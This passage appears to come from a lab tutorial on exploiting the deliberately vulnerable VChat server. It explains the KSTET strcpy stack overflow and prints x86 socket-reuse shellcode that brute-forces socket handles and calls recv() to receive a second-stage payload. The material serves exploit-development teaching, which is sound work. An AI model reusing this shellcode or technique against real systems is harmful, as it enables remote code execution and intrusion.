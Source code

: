 ## VChat and Exploit Code

### VChat Code
As with the previous exploits the VChat code is relatively simple in nature. Once a connection is received on port 9999, a thread is created running the  `DWORD WINAPI ConnectionHandler(LPVOID cli)` function, where `LPVOID cli` is a void pointer that holds the address of a `client_t` structure; this is a custom structure that contains the necessary connection information.  


Below is the code segment that handles the `KSTET` message type. 
```c
else if (strncmp(RecvBuf, "KSTET ", 6) == 0) {
	char* KstetBuf = malloc(100);
	strncpy(KstetBuf, RecvBuf, 100);
	memset(RecvBuf, 0, DEFAULT_BUFLEN);
	Function2(KstetBuf);
	SendResult = send(Client, "KSTET SUCCESSFUL\n", 17, 0);
}
```
The buffer we copy to is only 100 bytes, and by using the [`strncpy(char * destination, const char * source, size_t num )`](https://cplusplus.com/reference/cstring/strncpy/) function, we guarantee we will only copy 100 bytes from the source into the destination buffer. This prevents buffer overflows as we limit the number of character copied not by the size of the source, but based on something we specify. Then to prevent malicious code from existing in memory, as the original Vulnserver did not free the receiving buffer the line `memset(RecvBuf, 0, DEFAULT_BUFLEN);` zeros out the receiving buffer. Then the code calls `Function2(...)`; this is where the overflow occurs. 

```c
void Function2(char* Input) {
	char Buffer2S[60];
	strcpy(Buffer2S, Input);
}
```

Within `Function2(char* input)` we copy the buffer that possibly contains 100 bytes, into a locally declared buffer that has 60 bytes of space allocated. As we use the [`strcpy(char * destination, const char * source)`](https://cplusplus.com/reference/cstring/strcpy/) function, this copies from the source (100 bytes) to the destination buffer (60 bytes) until a null terminator is detected in the source buffer.

### Shellcode
The resulting shellcode is shown below:
```s
sub esp,0x64            ; Move ESP pointer above our initial buffer to avoid
						; overwriting our shellcode
xor edi,edi             ; Zero out EDI (Anything XORed with itself is 0)
socket_loop:            ; Brute Force Loop Label
xor ebx,ebx             ; Zero out EBX (Anything XORed with itself is 0)
push ebx                ; Push 'flags' parameter = 0 
add bh,0x4              ; Make EBX = 0x00000400 which is  1024 bytes
push ebx                ; Push `len` parameter, this is 1024 bytes
mov ebx,esp             ; Move the current pointer of ESP into EBX
add ebx,0x64            ; Point EBX the original ESP to make it the pointer to
						; where our stage-2 payload will be received
push ebx                ; Push `*buf` parameter = Pointer to ESP+0x64
inc edi                 ; Make EDI = EDI + 1
push edi                ; Push socket handle `s` parameter = EDI, For each loop we increment EDI
mov eax,0x74F123A0      ; We need to make EAX = 0x74F123A0 but we can't inject if there are null bytes in this.
                        ; Since there are none we do not need to do any shifting
call eax                ; Call recv()
test eax,eax            ; Check if our recv() call was successfully made
jnz socket_loop         ; If recv() failed, jump back to the socket loop where
						; EDI will be increased to check the next socket handle
```